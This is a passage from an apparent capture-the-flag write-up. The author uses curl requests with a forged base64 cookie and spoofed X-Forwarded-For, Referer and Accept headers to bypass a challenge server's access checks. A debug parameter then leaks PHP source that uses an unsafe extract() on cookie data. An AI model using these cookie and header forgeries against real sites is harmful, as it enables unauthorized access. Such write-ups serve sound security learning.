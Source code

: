 ```
* Closing connection 0
```

Surely I'm not done. The next `X-Note` header told me to accept the `flag/*`, which is can easily be done with the `Accept` header. The `Accept` header is used to specify certain media types which are acceptable for the response.

So I sent another request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" --header "Accept: flag/*" -v
```

And here's the response:
```
*   Trying 192.81.210.234...
* TCP_NODELAY set
* Connected to 192.81.210.234 (192.81.210.234) port 10005 (#0)
> POST / HTTP/1.1
> Host: 192.81.210.234:10005
> User-Agent: curl/7.58.0
> Cookie: identify=YWxsb3dfYWNjZXNzPXRydWU=
> X-Forwarded-For: 127.0.0.1
> Referer: http://localhost/
> Content-Length: 10
> Accept: flag/*
>
< HTTP/1.1 200 OK
< Date: Fri, 05 Jun 2020 04:12:23 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.4.6
< X-Note: Now you might post me debug=true anytime you need it.
< Content-Length: 0
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
* Closing connection 0
```

The `X-Note` header told me that I can post `debug=true` data, so I did that. I sent the request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWU=" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --header "Content-Length: 10" --header "Accept: flag/*" --data "debug=true" -v
```

And it turns out the action gives me the source code of the website. Here's the source code:
```
<?php
    require_once "flag.php";

    $admin = "";
    if ($_SERVER['REQUEST_METHOD'] === "POST") {
        if (!isset($_COOKIE['identify'])) {
            setcookie('identify', base64_encode('allow_access=false'));
        }
        else {
            $cookie = base64_decode($_COOKIE['identify']);
            parse_str($cookie, $parsed);
            // print_r($parsed);
            @extract($parsed);
            if (!@filter_var($allow_access, FILTER_VALIDATE_BOOLEAN)) {
                header("X-Note: Your access has not been allowed. Please try again later.");
            }
            else {
                if (@$_SERVER['HTTP_X_FORWARDED_FOR'] !== "127.0.0.1") {
```